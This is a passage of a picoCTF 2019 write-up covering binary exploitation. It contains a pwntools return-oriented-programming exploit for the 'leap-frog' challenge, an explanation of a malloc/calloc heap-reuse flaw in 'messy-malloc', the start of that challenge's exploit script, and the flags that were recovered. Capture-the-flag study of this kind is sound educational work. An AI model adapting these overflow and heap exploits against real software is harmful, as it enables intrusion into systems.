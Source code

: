 ```python
    REMOTE = False
  else:
    s = ssh(host='2019shell1.picoctf.com', user='sashackers', password="XXX")
    sh = s.process('rop', cwd='/problems/leap-frog_1_2944cde4843abb6dfd6afa31b00c703c')
    REMOTE = True

main_addr = 0x80487c9
gets_plt = 0x08048430
win1_addr = 0x0804A03D
display_flag_addr = 0x080486b3

start()
payload = 'a'*28
payload += p32(gets_plt)
payload += p32(display_flag_addr)
payload += p32(win1_addr)
# payload += p32(0x38c0)[:-2]
sh.sendlineafter('> ', payload)
sh.sendline('\x01'*3)
sh.interactive()
```

flag: `picoCTF{h0p_r0p_t0p_y0uR_w4y_t0_v1ct0rY_f60266f9}`

# messy-malloc

## Problem

Can you take advantage of misused malloc calls to leak the secret through this service and get the flag? Connect with `nc 2019shell1.picoctf.com 12286`. Source.

[Binary](/blog/picoctf-2019-writeup/binary-exploitation/messy-malloc/auth)

[Source](/blog/picoctf-2019-writeup/binary-exploitation/messy-malloc/auth.c)

## Solution

Because the program uses `malloc` instead of `calloc`, we can allocate a heap chunk for the username that has the same size as a user struct, and then we can free the chunk and allocate the same chunk now as a user struct. Because the data we previously entered is still there, we can set the `access_code` and get the flag.

Exploit script:

```python
from pwn import *
import sys

# picoCTF{g0ttA_cl3aR_y0uR_m4110c3d_m3m0rY_8aa9bc45}
argv = sys.argv

DEBUG = True
BINARY = './auth'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

def attach_gdb():
  gdb.attach(sh)


if DEBUG:
  context.log_level = 'debug'

```